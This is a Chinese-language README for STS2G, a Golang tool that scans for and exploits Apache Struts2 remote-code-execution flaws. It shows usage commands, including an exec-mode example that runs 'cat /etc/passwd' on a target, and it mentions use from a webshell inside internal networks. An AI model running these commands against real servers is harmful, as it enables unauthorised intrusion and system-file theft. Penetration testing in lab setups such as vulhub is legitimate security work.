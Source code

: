 # STS2G
Struts2漏洞测试-Golang版，部分POC参考了众多优秀项目如[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)，漏洞测试环境采用[vulhub](https://github.com/vulhub/vulhub/tree/master/struts2).  
目前两种模式`scan`和`exec`支持：  
*struts2-001*  
*struts2-005*  
*struts2-007*  
*struts2-008*  
*struts2-009*  
*struts2-012*  
*struts2-013*  
*struts2-015*  
*struts2-016*  
*struts2-045*  
*struts2-046*  
*struts2-048*  
*struts2-053*  
*struts2-057*  
#### 开发目的  
1、适用于命令行下操作，比如webshell下测试内网struts2漏洞.  
2、可编译Windows/Linux平台可执行文件.  
3、单文件运行.  
#### 使用方法  
``` 
D:\Struts2-Test>ST2SG.exe -h
NAME:
   ST2SG - Struts2 Scanner Written in Golang

USAGE:
   ST2SG --url http://xxxxxxx.com/test.action --vn 15 --mode scan

AUTHOR:
   x51 <x51enter@gmail.com>

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --mode value  Specify work mode
   --vn value    Vulnerability number (default: 0)
   --url value   Set target url
   --cmd value   Exec command(Only works on mode exec.)
   --data value  Specific vulnerability packets
   --help, -h    show help (default: false)
```
![avatar](./Example.png)  
##### 默认扫描模式(不建议使用):  
```ST2SG --url http://xxx.com/index.action --mode scan```  
##### 指定漏洞扫描模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode scan```  
##### 命令执行模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode exec --cmd "cat /etc/passwd"```  
##### 自定义参数：  
*基于以上方法，分两种情况，自定义GET参数名，和自定义POST数据包内容，POST方式需要在数据包中指定一下要测试的参数并用fuckit标记出来.*  
###### POST  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 007 --data "name=fuckit&pass=qwer"```  
以Struts2-001为例，登录请求包如下：  
```
POST /login.action HTTP/1.1
Host: 192.168.123.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.123.128:8080
Connection: close
Referer: http://192.168.123.128:8080/
Cookie: JSESSIONID=51B574E47166823D7622CA583D71954E
Upgrade-Insecure-Requests: 1

username=aaa&password=bbb
```  
![avatar](./s001.png)  
###### GET  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 009 --data "name"```  
以Struts2-009为例，GET请求如下：  
```
http://192.168.123.128:8080/ajax/example5.action?age=1&name=aaa
```  
![avatar](./s009.png)  
#### 补充  
1、强烈建议使用vn参数；  
2、自定义POC只需在utils中修改为自己的即可；  
3、部分漏洞支持获取webpath，功能函数已经在各自漏洞模块中实现（func GetWebPath），可自行调用；  
